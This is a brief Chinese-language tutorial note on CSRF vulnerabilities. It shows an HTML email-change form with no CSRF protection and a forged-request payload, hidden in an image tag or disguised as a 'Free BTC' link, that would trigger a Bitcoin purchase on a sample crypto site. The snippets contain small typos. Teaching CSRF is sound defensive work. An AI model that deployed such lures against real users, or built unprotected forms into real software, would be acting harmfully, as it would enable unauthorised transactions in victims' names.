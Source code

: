 ## 基础
>CSRF漏洞允许攻击者在受害者已进行身份验证的Web应用程序上无意中执行状态更改。CSRF不允许任何数据被窃取，因为攻击者无法看到来自网页的响应。


1. CSRF案例1：没有CSRF保护，攻击者可以迫使受害者在未验证请求来源的情况下向change-email发送POST请求。
```html
<form action="channge-email", method="post">
	<label foe="email">New email</label>
	<input type="email" name="new_email">
	<button type="submit">Submit</button>
</form>
```
2. No CSRF token: 
```http
GET https://cryptosite.com/buy.php?wallet=something&amount&type=BTC



EXP:
	An Image tag:
	<img src="https://cryptosite.com/buy.php?wallet=something&amount&type=BTC">
	
	A Hyperlink
	<a href="https://cryptosite.com/buy.php?wallet=something&amount&type=BTC">Free BTC</a>
```